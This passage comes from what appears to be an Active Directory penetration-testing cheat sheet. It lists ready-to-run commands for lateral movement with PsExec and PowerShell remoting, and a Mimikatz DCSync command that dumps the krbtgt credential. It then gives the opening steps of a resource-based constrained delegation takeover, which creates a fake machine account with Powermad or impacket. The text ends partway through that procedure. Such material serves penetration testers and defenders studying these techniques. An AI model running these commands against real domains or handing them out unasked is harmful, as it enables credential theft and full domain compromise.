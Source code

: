 ````
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Resource Based Constrained Delegation
### Computer object takeover
- Requirements:
  - An account with a SPN associated (or able to add new machines accounts (default value this quota is 10))
  - A user with write privileges over the target computer which doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

#### Check if domain controller is atleast Windows Server 2012
```
Get-DomainController
```

#### Check if target doesn't have msds-AllowedToActOnBehalfOfOtherIdentity
```
Get-DomainComputer <COMPUTERNAME> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

#### Get access to a user or computer with SPN set
- If not already owned a user or computer with a SPN, Create a computer object!

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota | select-object ms-ds-machineaccountquota
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
Import-Module Powermad.ps1 
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Get the object SID
- If already had a user with SPN use that user, otherwise use the computer you made!
```
Get-DomainComputer FAKE01
Get-DomainUser <USER>
```

#### Creata a new raw security descriptor
- Use the SID from previous command
``` 
````
